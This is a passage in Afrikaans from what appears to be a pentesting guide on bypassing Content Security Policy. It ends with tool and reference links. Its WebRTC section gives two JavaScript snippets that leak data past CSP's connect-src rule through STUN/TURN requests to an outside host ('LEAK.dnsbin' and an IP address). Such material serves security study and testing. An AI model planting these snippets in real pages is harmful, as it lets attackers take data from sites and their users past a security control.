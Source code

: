 ### WebRTC

Op verskeie bladsye kan jy lees dat **WebRTC nie die `connect-src` beleid** van die CSP nagaan nie.

Werklik kan jy _leak_ inligting gebruik maak van 'n _DNS versoek_. Kyk na hierdie kode:
```javascript
;(async () => {
p = new RTCPeerConnection({ iceServers: [{ urls: "stun:LEAK.dnsbin" }] })
p.createDataChannel("")
p.setLocalDescription(await p.createOffer())
})()
```
Nog 'n opsie:
```javascript
var pc = new RTCPeerConnection({
"iceServers":[
{"urls":[
"turn:74.125.140.127:19305?transport=udp"
],"username":"_all_your_data_belongs_to_us",
"credential":"."
}]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```
## Kontroleer CSP Beleide Aanlyn

- [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com)
- [https://cspvalidator.org/](https://cspvalidator.org/#url=https://cspvalidator.org/)

## Outomatiese skep van CSP

[https://csper.io/docs/generating-content-security-policy](https://csper.io/docs/generating-content-security-policy)

## Verwysings

- [https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/](https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/)
- [https://lcamtuf.coredump.cx/postxss/](https://lcamtuf.coredump.cx/postxss/)
- [https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
- [https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme](https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme)
- [https://www.youtube.com/watch?v=MCyPuOWs3dg](https://www.youtube.com/watch?v=MCyPuOWs3dg)
- [https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/)
- [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

​
